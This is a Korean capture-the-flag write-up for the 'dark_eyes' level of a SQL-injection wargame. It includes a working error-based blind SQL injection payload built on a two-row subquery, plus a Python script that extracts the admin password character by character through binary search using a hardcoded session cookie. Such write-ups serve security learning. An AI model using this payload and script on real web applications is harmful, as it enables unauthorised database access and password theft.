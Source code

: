 ```yaml
---
title: LOS - 22번 dark_eyes
category: Lord of SQL Injection
---
```


# [22] dark_eyes

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FQZVKB%2FbtrnR2UVQMP%2FtzRVYHPoeR2N10uYesKs8k%2Fimg.png">

## 풀이

이번 문제에서는 col, if, case, when, sleep, benchmark를 필터링하고 있다.

 

전체적인 구조는 이전 문제와 크게 다르지 않은 Error Based Blind SQLi 문제이다.

* 이전 문제와는 달리 에러가 발생할 시 에러 메시지를 보여주지는 않지만 exit됨으로 인해 빈 화면이 출력되므로 그 자체로 에러 여부 판별이 가능하다.

 

이번 문제의 핵심은 if문이나 case문을 사용하지 않고 특정 조건을 충족하는 경우에 에러를 발생시켜주는 것에 있다.

 

이래저래 대체할 방법을 찾아봤지만... 방법은 딱 하나인 것 같았다.

서브쿼리를 이용하는 것이다.

 

사용할 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
```

① SELECT 1 UNION SELECT 2

⇒ 서브쿼리가 둘 이상의 row를 반환하지 못한다는 특성을 이용하여, 해당 요소가 실행될 시 에러가 발생하게끔 유도한다.

② where id='admin' and length(pw)={num}

⇒ pw의 길이가 일치할 시 where절이 True가 되므로 ①번 요소가 실행되고, 그로 인한 에러가 발생하게 된다.

⇒ 에러의 발생 유무를 판별하여 pw의 길이와 일치하는 num을 찾아낼 수 있다.

 

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

또한 이전 문제들과 마찬가지로, 2진 탐색을 적용하여 검색 속도를 높인다.

 

 

LoS 22번 Python 자동화 코드이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
    if("query" not in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))>={middle}) %23"
        if("query" not in send(param)):
            param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))={middle}) %23"
            if("query" not in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcDNwU8%2FbtrnLHEJjIe%2FQayaMUVXj93KSZTUwujn3K%2Fimg.png">


Blind 공격 결과, pw는 `5a2f5d3c` 임을 확인할 수 있다.

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FobIoV%2FbtrnN22UR9z%2FWb6jsJDojQmhcK1tCizpUk%2Fimg.png">